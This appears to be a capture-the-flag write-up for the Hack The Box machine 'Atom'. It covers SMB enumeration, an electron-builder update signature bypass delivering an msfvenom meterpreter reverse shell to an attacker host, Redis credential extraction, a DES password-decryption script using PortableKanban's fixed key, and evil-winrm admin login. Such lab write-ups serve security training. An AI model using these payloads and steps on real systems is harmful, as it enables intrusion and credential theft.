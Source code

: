 # Atom 
IP: 10.10.10.237
System: windows

referense to atom editor ? 
Lets start by focus on things that have something to do with programming / software. 

add the ip to hosts 
````bash
echo "10.10.10.237 atom.htb" >> /etc/hosts
````

## Nmap scan
|port|service|
|---|---|
|80|http|
|135|msrpc|
|443|https|
|445|SMB|
|5985|http|
|6379|redis|
|7680|pando-pub?|

On the http/https is the same page, which allows you to download a program for windows. 

lets try SMB port 
#smbclient
````bash
smbclient atom.htb
````

This will display interresting shares, lets start with software_updates there might be something there

````bash
smbclient atom.htb\Software_updates
````

````bash
smbclient -N "\\\\atom.htb\Software_Updates"
````

get download the pdf, no need to look at the other folder as they are empty.

Look to be a user acception test document. 


````bash
get UAT_Testing_procesudres.pdf
````

What we learn from the document is that the application is built on "electron-builder"

https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

From the blog posts we learn that the signature verfication process in electron-builder is string comparison between the install binary publisherName and cerf common name. 

let try out exploit first with msfvenom.  

````bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.200 LPORT=8765 -f exe -o "trustme.exe"
````

````bash
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set Lhost 10.10.14.200
set lport 8765
````

Create you yml file 

````yml
version: 1.2.3
path: http://10.10.14.200/trustme.exe
sha512: <hash>

````

````python
python3 -m http.server
````

login back into the smb and put in the latest.yml file inside one of the clients.

````smb
cd client1
put latest.yml
````

lets wait and see if anything happens. 

and we got shell. 

````cmd
more c:\users\jason\desktop\user.txt
````

## admin
I always wanted to try somthing like WINPEAs and see if it works. 

upload the file using meterpreter

````ps
winPEASx64.exe servicesinfo
````

from the winPEAS we learn about a service called redis

what is redis??

going to the redis folder we see a conf file

````cmd
cd c:\program files\Redis
type redis.windows.service.conf
#output
requirepass kidvscat_yes_kidvscat

````

install redis-cli is you do not have it. 

````bash
apt intall redis-tools
redis-cli -h atom.htb -a <password>
keys * 
get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
````

{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"

And we got the hash -> Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
Now the question is how do we get the password?

while using the winpeasx64 I saw the jason having Portable kanban inside his downloable folder, lets see if they use the same password for that as his admin account. 
Portable-kanban stores password as encryption format des and the same key is used for every product. 

google *Portable kanban encrypted password* and you get a python script for how to decrypt the hash. but it uses the pk3 file as argument but as we allready have the hash lets just that instead, and just alway everything we do not need. 

 ````python3
 import base64
from des import * #python3 -m pip install des

try:
    hash = base64.b64decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi")
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
 ````

And we got the admin password.
Decrypted Password : kidvscat_admin_@123

lets use the windows remote management to get access as admin on the machine, it a SOAP based protocol that allows hardware and operation systems from diffrent vendors to interoperate. 

Has a nice tool to get access to it.
https://github.com/Hackplayers/evil-winrm


````bash
sudo gem install evil-winrm
evil-winrm -i 10.10.10.237 -u 'administrator' -p 'kidvscat_admin_@123'
````

And we got root access.


hash -> 7df7256dc47d2125d825058b2f89ff38
writeups:
